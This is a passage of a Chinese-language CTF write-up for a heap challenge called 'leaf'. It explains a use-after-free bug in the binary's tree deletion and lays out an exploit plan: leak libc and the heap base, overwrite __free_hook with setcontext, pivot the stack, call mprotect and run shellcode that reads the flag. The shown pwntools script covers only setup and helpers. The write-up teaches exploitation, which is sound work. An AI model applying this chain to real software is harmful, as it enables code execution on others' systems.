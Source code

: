 ```c
}
```

同样，a1->f->confession没有置空，为二叉树合并链接制造条件，如果置NULL在exchange的时候UAF就不能用了。这里的删除时将子树整体递归free，而不是只删除一个节点。</br>
菜单选项5是通过异或切换子树,全局变量now控制子树切换。

```c
.text:0000000000001C49                 lea     rax, now
.text:0000000000001C50                 mov     eax, [rax]
.text:0000000000001C52                 xor     eax, 1
.text:0000000000001C55                 mov     edx, eax
.text:0000000000001C57                 lea     rax, now
.text:0000000000001C5E                 mov     [rax], edx
.text:0000000000001C60                 jmp     short loc_1C78
```

至此，程序逻辑和漏洞点都理的差不多了

## 利用方式

在find、link、dele的时候都会有检查孩子的父节点是不是当前节点，所以在此之前要通过堆排列进行绕过。

1. 通过堆排列绕过check，tcache，exchange合并子树，dele其中一个，造成UAF，泄露libc
2. 通过堆排列绕过check，tcache，exchange造成uaf，free chunk to fastbin 泄露heapbase
3. 得到free hook、setcontext、mprotect地址
4. 写入freehook地址，修改free hook为setcontext+61刷新环境（rsp）到堆地址
5. 通过SOP调用mprotect给内存赋予执行权限，ret跳转到shellcode执行orw读取flag
6. dele触发shellcode。

传送门：[setcontext](https://github.com/1094093288/IMG/blob/master/Pwn/2021anxunbei/wp.md#%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90%E5%8F%8A%E5%8A%9F%E8%83%BD)、[SROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/#signal)

## exp

```python
from pwn import * 


context.log_level = 'debug'
context.terminal = ['/bin/tmux', 'split', '-h']
context.arch = 'amd64'
sh = process('./leaf')
#sh = remote('119.45.24.140', 9349)

libc = ELF('/home/xxx/glibc-all-in-one/libs/2.31-0ubuntu9.2_amd64/libc.so.6')
#libc = ELF('./libc-2.31.so')


def Write(Until, Text, opt = False):
    if not opt:
        sh.sendlineafter(Until, Text)
    else:
        sh.sendafter(Until, Text)

def Add(confession, val):
    Write('Choice:', '1')
    Write('.', confession, opt = True)
    Write('.', str(val))

def Dele(val):
    Write('Choice:', '4')
    Write('.', str(val))

```